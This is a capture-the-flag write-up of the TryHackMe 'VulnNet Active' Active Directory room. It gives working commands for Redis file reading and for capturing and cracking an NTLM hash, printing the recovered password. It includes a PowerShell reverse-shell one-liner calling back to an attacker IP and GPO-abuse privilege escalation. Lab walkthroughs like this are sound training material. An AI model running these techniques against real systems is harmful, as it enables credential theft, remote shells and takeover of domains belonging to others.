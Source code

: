# 9 - AD - VulnNet Active

Room link --> [https://tryhackme.com/room/vulnnetactive](https://tryhackme.com/room/vulnnetactive)

Nmap Scan returns: `sudo nmap -sSVC -p- -v -Pn -T4 10.10.102.28`&#x20;

{% code overflow="wrap" lineNumbers="true" %}
```bash
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
6379/tcp  open  redis         Redis key-value store 2.8.2402
9389/tcp  open  mc-nmf        .NET Message Framing
49665/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49670/tcp open  msrpc         Microsoft Windows RPC
49684/tcp open  msrpc         Microsoft Windows RPC
49697/tcp open  msrpc         Microsoft Windows RPC
49822/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```
{% endcode %}

### Redis (port 6379)

[https://book.hacktricks.xyz/network-services-pentesting/6379-pentesting-redis](https://book.hacktricks.xyz/network-services-pentesting/6379-pentesting-redis)

### Enumeration

{% code overflow="wrap" lineNumbers="true" %}
```bash
# automatic enumeration.
nmap --script redis-info -sV -p 6379 <IP> -Pn
msf> use auxiliary/scanner/redis/redis_server

# mannual enumeration.
nc -vn 10.10.10.10 6379
redis-cli -h 10.10.10.10 # sudo apt-get install redis-tools.
10.10.66.252:6379> INFO # gives some info about the server-client.
10.10.66.252:6379> CONFIG GET * # we got a username here: [104) "C:\\Users\\enterprise-security\\Downloads\\Redis-x64-2.8.2402"]

```
{% endcode %}

So the current user name is `enterprise-security`.

### Exploitation <a href="#exploitation-of-redis" id="exploitation-of-redis"></a>

Going through the HackTricks list, we find an [article](https://www.agarri.fr/blog/archives/2014/09/11/trying\_to\_hack\_redis\_via\_http\_requests/index.html) that shows how to exploit earlier versions of Redis (our version 2.8.2402 is amongst them):

{% hint style="warning" %}
“Redis can execute Lua scripts (in a sandbox, more on that later) via the “EVAL” command. The sandbox allows the dofile() command (WHY???). It can be used to enumerate files and directories. No specific privilege is needed by Redis… If the Lua script is syntaxically invalid or attempts to set global variables, the error messages will leak some content of the target file”
{% endhint %}

#### Reading files <a href="#reading-files" id="reading-files"></a>

As explained in the linked article, the command we use is the following:

{% code overflow="wrap" lineNumbers="true" %}
```bash
redis-cli -h 10.10.245.19 eval "dofile('<PATH TO FILE>')" 0
```
{% endcode %}

We try to read some of the [common windows files](https://github.com/carlospolop/Auto\_Wordlists/blob/main/wordlists/file\_inclusion\_windows.txt) that are usually used for Local File Inclusion.

Let's read the "user.txt" file as asked in the question:

{% code overflow="wrap" lineNumbers="true" %}
```bash
10.10.66.252:6379> EVAL "dofile('C:/Users/enterprise-security/Desktop/user.txt')" 0
```
{% endcode %}

#### SMB credentials capturing[#](https://blog.raw.pm/en/TryHackMe-VulnNet-Active-write-up/#SMB-credentials-capturing) <a href="#smb-credentials-capturing" id="smb-credentials-capturing"></a>

LUA `dofile()` allows us to request a file but since we are on Windows it allows us to request a share as well for example: `dofile('//host/share')`.

So if we launch a SMB server with Responder on one hand and force the server to request a fake share on the other hand, we should be able to capture a NTLM hash.

#### Step 1

we first set up a listener using `Impacket's Responder.py`.

{% code overflow="wrap" lineNumbers="true" %}
```bash
# listener.
sudo responder -i tun0

# request for a fake share.
redis-cli -h EVAL "dofile('//10.18.88.214/fakeshare')" 0
```
{% endcode %}

<figure><img src=".gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>1</p></figcaption></figure>

We captured the NTLMv2 hash for "enterprise-security" user account, we can crack it:

Using haiti to detect the hash type:&#x20;

<figure><img src=".gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>2</p></figcaption></figure>

`hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt` - crackin with hashcat.

`john hash.txt --format=netntlmv2 --wordlist=/usr/share/wordlists/rockyou.txt` - cracking with john.

{% hint style="info" %}
sand\_0873959498 <--> enterprise-security
{% endhint %}

We have valid credentials now to enumerate SMB.

{% code overflow="wrap" lineNumbers="true" %}
```bash
smbclient -L \\\\10.10.117.3\\ -U 'enterprise-security'
```
{% endcode %}

<figure><img src=".gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>3</p></figcaption></figure>

Connecting to the "Enterprise-Share"

{% code overflow="wrap" lineNumbers="true" %}
```bash
smbclient \\\\10.10.117.3\\Enterprise-Share -U enterprise-security
```
{% endcode %}

<figure><img src=".gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>4</p></figcaption></figure>

We viewed the .ps1 script file, and see its a scheduled script.

{% code overflow="wrap" lineNumbers="true" %}
```bash
┌──(dking㉿dkingws)-[~]
└─$ cat PurgeIrrelevantData_1826.ps1 
rm -Force C:\Users\Public\Documents\* -ErrorAction SilentlyContinue
```
{% endcode %}

We could replace this with a Powershell Oneliner to get a reverse shell.

{% code overflow="wrap" lineNumbers="true" %}
```powershell
$client = New-Object System.Net.Sockets.TCPClient('10.18.88.214',1234);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex ". { $data } 2>&1" | Out-String ); $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
{% endcode %}

<figure><img src=".gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>5</p></figcaption></figure>

And we got a shell.

#### Priv Esc

We have "SeImpersonatePrivilege", so we could use Potatoe attack or use BloodHound to find another path.

<figure><img src=".gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>6</p></figcaption></figure>

I used Metasploit and got "Nt Authority".

#### 2nd Method for Priv Esc:

After gaining initial access using the Powershell script, we can use "SharpHound.exe" to gather Domain info, then feed the data to BloodHound to give us shortest path to Admin or Domain Admin.

{% code overflow="wrap" lineNumbers="true" %}
```bash
.\SharpHound.exe -c All
```
{% endcode %}

<figure><img src=".gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>7</p></figcaption></figure>

&#x20;We can use BloodHound to analyse the found data: Immediately, BloodHound gives us the shortest path from our current user `enterprise-security` to the `Administrator`. Apparently, we do have `GenericWrite` Permissions to one of the `GPO`s - namely `security-pol-vn`.

Copy the .zip file to the Share folder, then download to kali for use in BloodHound.

`powershell cp .\20230907143943_BloodHound.zip C:\Enterprise-Share\20230907143943_BloodHound.zip` .

We can use the [SharpGPOAbuse.exe](https://github.com/byronkg/SharpGPOAbuse/tree/main/SharpGPOAbuse-master) binary to exploit the "GenericWrite" permission on that GPO object.

{% code overflow="wrap" lineNumbers="true" %}
```bash
# 
.\SharpGPOAbuse.exe --AddComputerTask --TaskName "privesc" --Author vulnnet\administrator --Command "cmd.exe" --Arguments "/c net localgroup administrators enterprise-security /add" --GPOName "SECURITY-POL-VN"
```
{% endcode %}

<figure><img src=".gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>8</p></figcaption></figure>

We can do a `gpupdate /force` - to force update the settings, then when we do a `net users enterprise-security` - we should be added to the Administrator groups now.

<figure><img src=".gitbook/assets/image (9) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>9</p></figcaption></figure>

Note we are not able to go into the Administrator folder from the shell, but we can access the Administrator folder via the SMB share.

`smbclient \\10.10.92.208\C$ -U enterprise-security` .

DONE !

